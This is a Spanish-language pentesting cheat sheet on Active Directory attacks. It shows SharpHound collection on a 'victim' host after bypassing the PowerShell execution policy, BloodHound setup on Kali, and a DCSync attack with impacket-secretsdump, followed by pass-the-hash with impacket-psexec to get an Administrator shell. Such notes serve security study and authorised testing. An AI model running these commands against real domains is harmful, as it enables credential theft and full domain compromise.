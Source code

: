 # BloodHound 

Tags: #AD #Powershell #Windows #Enumeracion 

Bloodhound es una app en JavaScript la cual puede identificar fácilmente ataques altamente complejo que de otro modo seria imposible identificar ademas puede identificar grupos con permisos excesivos. Los defensores pueden usar Bloohound para identificar y eliminar esas mismas rutas de ataque. 

```bash 
# Descargamos la utilidad en nuestra maquina de atacante para despues pasar el archivo a la maquina victima que esta utilizando PowerShell

❯ wget https://raw.githubusercontent.com/puckiestyle/powershell/master/SharpHound.ps1 
```

```bash 
# En la maquina victima con PS. Hacemos lo siguiente para la recoleccion de data

❯ powershell -ep bypass                      # Politica que nos permite ejecutar scripts en Powershell
 	# ep = Ejecutar politicas 

# Enumeracion 
❯ . .\SharpHound.ps1                         # Importamos el modulo 
❯ Import-Module .\SharpHound.ps1             # Otra forma de importar el modulo  

❯ Invoke-Bloodhound -CollectionMethod All    # Utilizamnos la funcion 'Invioke' para crear el archivo  '2024_bloodhound.zip' el cual usaremos en el GUI de la herramienta de Boolhound
```

## BloodHound en Kali 

```bash 
# Abrirmos la herramienta de Boodhound y cargamos el archivo '2024_bloodhound.zip'

❯ apt install neo4j bloodhound          # Instalar la herramienta en Kali 
❯ update-alternatives --config java     # Ver las versiones de Java y cual se esta utilizando (Se debe usar la version 11)

❯ neo4j console &> /dev/null & disown   # Iniciamos el servicio en el puerto local 7474 y lo independizamos
	# Nota: Si es la primera vez que lo usamos, abrimos la web 'localhost:7474' y agregamos las credenciales 'neo4j:neo4j', despues, agregamos una passwd nueva y asi podremos conectarnos al 'Bloodhound'

❯ bloodhound &> /dev/null & disown      # Abrimos el 'Bloodhound' para usar el GUI y cargar el archivo .ZIP
```

```bash 
# Otra forma de subir data a la plataforma de Bloodhound

❯ bloodhound-python -d Domain.local -u User -p Password -ns IP_DC -c all   # Ejecutamos para recopilar la data y asi poder subir el archivo a la plataforma de Bloodhound

Nota: Importamos todos los archivos que fueron generados en formato Json
```

## Ataques 'DCSync'

```bash 
# Si encontramos en 'Bloodhound' un usuario que tiene un 'GetChangesAll' sobre el dominio podremos hacer un 'DCSync attack' para obtener el hash del usuario 'Administrador' y por lo tanto efectuar un 'Pass-The-Hash'

❯ impacket-secretsdump <Domain/User@IP>    # Hacemos un ataque 'DCSync', debemos de colocar la passwd del usuario 
❯ impacket-psexec <Domain/Administrator@IP> cmd.exe -hashes <:hash>   # Utilizamos 'psexec' para obtener una consola interactiva autenticandonos como el usuario 'Administrator' y colocando su hash para hacer 'Pass-The-Hash'    
```